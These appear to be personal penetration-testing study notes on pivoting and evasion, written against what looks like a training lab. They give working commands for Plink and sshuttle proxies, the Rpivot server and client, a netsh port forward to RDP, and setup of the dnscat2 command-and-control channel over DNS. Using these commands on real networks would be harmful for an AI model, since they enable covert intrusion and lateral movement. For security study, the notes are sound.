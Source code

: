 ### Evasion
**Plink** (part of the PuTTY package) can be used to LotL and avoid having to download tools. 
Use Plink basically like this 
```
plink -ssh -D 9050 ubuntu@10.129.15.50
```
Sshuttle is an SSH Proxy
```
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v 
```
Nmap
```
nmap -v -sV -p3389 172.16.5.19 -A -Pn
```
**Rpivot**
Running the server
```
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
Transfer Rpivot to target 
```
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
Running on client
```
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
Browsing to a webserver
```
proxychains firefox-esr 172.16.5.135:80
```
Connecting to a webserver with HTTP-Proxy and NTLM
```
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
**Netsh.exe**
```cmd
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25
```
Verify it worked
```cmd
netsh.exe interface portproxy show v4tov4
```
**Dnscat2**
*It's just a C2 over encrypted DNS*
Install
```
git clone https://github.com/iagox86/dnscat2.git
```
Server Start
```
```
 sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
```
If you want PowerShell use `dnscat2-powershell`
Install 
```
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
Importing it
```powershell
Import-Module .\dnscat2.ps1
```
Setting up a tunnel
```powershell
```